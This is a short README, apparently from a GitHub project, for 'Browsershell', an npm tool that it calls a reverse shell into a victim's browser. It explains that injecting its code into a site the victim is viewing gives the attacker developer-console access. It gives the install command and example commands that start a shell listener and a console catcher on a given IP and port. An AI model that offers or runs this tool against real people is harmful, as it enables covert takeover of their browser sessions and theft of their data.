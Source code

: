 # Browsershell

This is a revserse shell to a browser session. The goal is that if you inject the given code into the website displayed by the victim, you will have access to his browser console, just like if you were opening the developer tools console.

```
npm i -g @sebastiandittrich/browsershell
```

## Example

Start a shell:

```
browsershell shell 192.168.0.10 3001
```

Listen for console output:

```
browsershell console-catcher 192.168.0.10 3002
```
